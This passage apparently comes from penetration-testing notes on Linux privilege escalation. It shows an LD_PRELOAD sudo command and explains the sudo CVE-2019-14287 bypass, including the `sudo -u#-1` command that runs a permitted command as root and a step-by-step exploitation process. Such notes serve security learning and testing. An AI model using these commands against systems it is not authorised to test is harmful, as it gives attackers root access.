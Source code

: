 Using the above `sudo -l` output as an example:

```bash
sudo LD_PRELOAD=/home/user/tgihf.so iftop
```

---

## `sudo` < 1.8.28 Security Bypass (CVE-2019-14287)

In `sudo` versions before 1.8.28, if the user is explicitly allowed to use `sudo` to execute a particular `$COMMAND` as all users except for `root`, their `sudo -l` will look something like this:

```bash
$ sudo -l
User tgihf may run the following commands on target01:
    (ALL, !root) $COMMAND
```

`/etc/sudoers` will look like this (low-privileged users likely can't read this):

```bash
$ cat /etc/sudoers
root    ALL=(ALL:ALL) ALL
tgihf ALL=(ALL,!root) $COMMAND
```

These versions of `sudo` fail to properly parse the user ID specified by the `-u` command. Coupled with the above configuration, a user can execute the target `$COMMAND` as `root` like so:

```bash
sudo -u#-1 $COMMAND
```

This works because `#-1` returns a 0. These versions of `sudo` take the 0 return value and change the current security context to that of `root`.

You can also leverage this vulnerability to execute `$COMMAND` as any user other than `root`, where `$USER_ID` is the ID of the target user (available in [[etc-passwd|/etc/passwd]]), like so:

```bash
sudo -u#$USER_ID $COMMAND
```

### Process

1. Determine if the machine's version of `sudo` is vulnerable (< 1.8.28).

```bash
sudo --version
```

2. Determine if the `sudo` configuration is vulnerable (see above).

3. If both the `sudo` version and configuration are vulnerable, exploit the vulnerability (see above).

References:
- [Exploit DB Description & Proof of Concept](https://www.exploit-db.com/exploits/47502)
- [WhiteSource Software Blog Post](https://www.whitesourcesoftware.com/resources/blog/new-vulnerability-in-sudo-cve-2019-14287/)

---